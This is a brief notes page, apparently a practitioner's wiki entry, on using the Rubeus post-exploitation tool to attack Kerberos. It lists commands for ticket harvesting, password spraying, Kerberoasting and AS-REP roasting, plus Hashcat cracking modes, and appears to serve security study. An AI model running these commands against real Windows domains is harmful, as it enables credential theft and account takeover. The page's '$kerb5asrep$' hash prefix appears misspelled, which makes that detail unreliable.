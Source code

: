 # Using Rubeus

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux’s `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current
# machine. Probably works best when run on a domain
# controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users and
# generate a ticket giving ticket for successful
# authentications. (Can trigger account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable
# accounts using Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with [Hashcat](hashcat.md) (use the 13100 hash mode).

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use [Hashcat](hashcat.md) to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## References

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [TryHackMe: Attacking Kerberos](tryhackme-attacking-kerberos.md)
* [Kerberos](kerberos.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 6, 2021
